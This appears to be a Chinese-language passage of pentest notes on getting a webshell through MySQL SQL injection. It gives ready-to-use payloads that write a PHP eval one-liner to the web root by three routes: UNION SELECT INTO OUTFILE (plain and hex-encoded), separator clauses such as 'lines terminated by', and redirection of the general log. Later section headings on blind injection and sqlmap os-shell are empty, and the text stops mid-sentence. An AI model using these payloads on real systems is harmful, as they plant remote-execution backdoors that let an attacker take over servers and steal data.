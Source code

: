 **1、利用Union select 写入**

这是最常见的写入方式，`union` 跟`select into outfile`，将一句话写入`evil.php`，仅适用于联合注入。

具体权限要求：`secure_file_priv`支持`web`目录文件导出、数据库用户File权限、获取物理路径。

```
?id=1 union select 1,"<?php @eval($_POST['g']);?>",3 into outfile 'E:/study/WWW/evil.php'
?id=1 union select 1,0x223c3f70687020406576616c28245f504f53545b2767275d293b3f3e22,3 into outfile "E:/study/WWW/evil.php"
```

**2、利用分隔符写入**

当`Mysql`注入点为盲注或报错，`Union select`写入的方式显然是利用不了的，那么可以通过分隔符写入。`SQLMAP`的 `--os-shell`命令，所采用的就是一下这种方式。

具体权限要求：`secure_file_priv`支持`web`目录文件导出、数据库用户`File`权限、获取物理路径。

```
?id=1 LIMIT 0,1 INTO OUTFILE 'E:/study/WWW/evil.php' lines terminated by 0x20273c3f70687020406576616c28245f504f53545b2767275d293b3f3e27 --
```

同样的技巧，一共有四种形式：

```
?id=1 INTO OUTFILE '物理路径' lines terminated by  （一句话hex编码）#
?id=1 INTO OUTFILE '物理路径' fields terminated by （一句话hex编码）#
?id=1 INTO OUTFILE '物理路径' columns terminated by （一句话hex编码）#
?id=1 INTO OUTFILE '物理路径' lines starting by    （一句话hex编码）#
```

**3、利用log写入**

新版本的`MySQL`设置了导出文件的路径，很难在获取`Webshell`过程中去修改配置文件，无法通过使用`select into outfile`来写入一句话。这时，我们可以通过修改`MySQL`的`log`文件来获取`Webshell`。

具体权限要求：数据库用户需具备`Super`和`File`服务器权限、获取物理路径。

```
show variables like '%general%';             #查看配置
set global general_log = on;                 #开启general log模式
set global general_log_file = 'E:/study/WWW/evil.php'; #设置日志目录为shell地址
select '<?php eval($_GET[g]);?>'             #写入shell
set global general_log=off;                  #关闭general log模式
```



## SQL注入无回显情况下的利用方法，以及对于mysql和mssql的详细利用函数





## sqlmap写osshell的过程

进入/usr/share/sqlmap/shell目录，可以看到readme.txt，里面大致是讲shell都是加密的，里面最下面两句就是加密和解密的

进入到sqlmap文件夹下执行
